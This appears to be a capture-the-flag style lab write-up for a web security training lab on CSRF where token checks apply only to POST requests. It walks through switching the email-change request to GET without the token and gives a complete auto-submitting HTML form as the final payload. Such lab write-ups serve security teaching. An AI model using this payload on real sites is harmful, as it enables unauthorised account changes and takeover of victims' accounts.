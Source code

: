
# CSRF where token validation depends on request method

## What do we know?
- site is vulnerable to Cross Site Request Forgery attack
- site implements CSRF token as one of POST parameters

## What do we have to do?
- change viewer's email address

## Solution:

> This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

Lab description tells that vulnerable site checks type of request, my first thought was using different HTTP method.
I had logged into website with given credentials and changed email. In Burp Suite i saw that website uses POST method to change email. 

Lab description gave me an idea, to try different request method, so instead of sending POST request I changed it to GET and passed parameters after question mark. It worked. Nextly I tried sending similar request, but without csrf parameter. Response was the same. 

I went to exploitation server and prepared script sending request as above.

## Final payload looks like this:
File:

`/exploit.html`

Head:

`HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8`

Body: 
```
<html>
  <body>
    <form action="https://"lab-id-here".web-security-academy.net/email/change-email" method="GET">
      <input type="hidden" name="email" value="new@email" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html> 
```
